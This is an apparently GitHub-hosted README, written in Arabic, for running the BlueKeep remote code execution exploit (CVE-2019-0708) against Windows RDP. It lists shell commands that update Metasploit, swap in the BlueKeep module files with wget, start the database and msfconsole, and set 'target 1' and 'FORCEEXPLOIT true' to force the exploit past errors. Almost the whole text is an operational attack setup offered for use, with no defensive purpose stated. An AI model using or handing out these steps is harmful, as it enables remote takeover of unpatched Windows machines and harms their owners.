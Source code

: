 # bluekeep
 CVE- 2019-0708 هذه هي ثغرة الارديبي الاخيرة رقمها
 
 
للثغرة عدة مشاكل ولغاية لحظة بدء هذا المشروع لم يقوم رابد7 الى الان بوضعها في تحديثات الميتا سبلويت وهذا الاصدر فيها عدة مشاكل



طريقة تنصيب بسيطة يجب ان تقوم بتحديث الميتا سبلويت الى اخر اصدار عن  طريق جميع هذه الاوامر

msfupdate

apt-get update

apt-get upgrade


ثم تنفيذ الاوامر الاتية

cd /usr/share/metasploit-framework/lib/msf/core/exploit/


rm rdp.rb

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb


mkdir /usr/share/metasploit-framework/modules/exploits/windows/rdp/


cd /usr/share/metasploit-framework/modules/exploits/windows/rdp/

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb


الان تم التنصيب يجب اعادة تشغيل قواعدالبيانات وتشغيل الميتا سبلويت لاستخدمها عن طريق الاوامر الاتية 
service postgresql start

msfdb init 

msfconsole

الان بعض الاوامر المهمة لدخول للثغرة واستخدامها


set target 1


set FORCEEXPLOIT true



هذه هي اهم الاوامر المهمة بعد الدخول للثغرة لتفادي بعض الاخطاء

